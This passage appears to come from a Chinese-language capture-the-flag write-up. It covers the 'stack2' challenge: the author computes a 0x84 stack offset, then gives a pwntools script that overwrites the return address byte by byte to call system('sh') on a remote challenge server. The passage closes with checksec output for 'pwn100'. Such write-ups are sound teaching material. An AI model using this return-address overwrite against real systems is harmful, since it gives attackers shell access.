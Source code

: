 ![20201207211134](https://raw.githubusercontent.com/Brubbish/pic_bed/master/blog/20201207211134.png)

执行后：
![20201207211413](https://raw.githubusercontent.com/Brubbish/pic_bed/master/blog/20201207211413.png)

所以首地址在cf18的位置，查看此时栈帧
![20201207211929](https://raw.githubusercontent.com/Brubbish/pic_bed/master/blog/20201207211929.png)
所以偏移为：cf9c-cf18==0x84
(ida错了！！！)

因此可以易得exp了：

```py
from pwn import *
context.log_level = "debug"
#p = process("./stack2")
p = remote("220.249.52.133", 53339)
print p.recv()
p.sendline("1")

p.sendlineafter("numbers\n","1")

def change(addr,data):
	addr = str(addr)
	data = str(data)
	p.sendlineafter("exit\n","3")
	p.sendlineafter("change:\n",addr)
	p.sendlineafter("number:\n",data)

#sys: 0x08048450
change(0x84, 0x50)
change(0x84+1,0x84)
change(0x84+2,0x04)
change(0x84+3,0x08)
#sh: 0x08048987
change(0x84+8,0x87)
change(0x84+8+1,0x89)
change(0x84+8+2,0x04)
change(0x84+8+3,0x08)

p.sendlineafter("exit\n","5")
p.interactive()
```

getshell

## pwn100

checksec :

```bash
pluto@pluto-virtual-machine:~/Desktop$ checksec pwn100 
[*] '/home/pluto/Desktop/pwn100'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
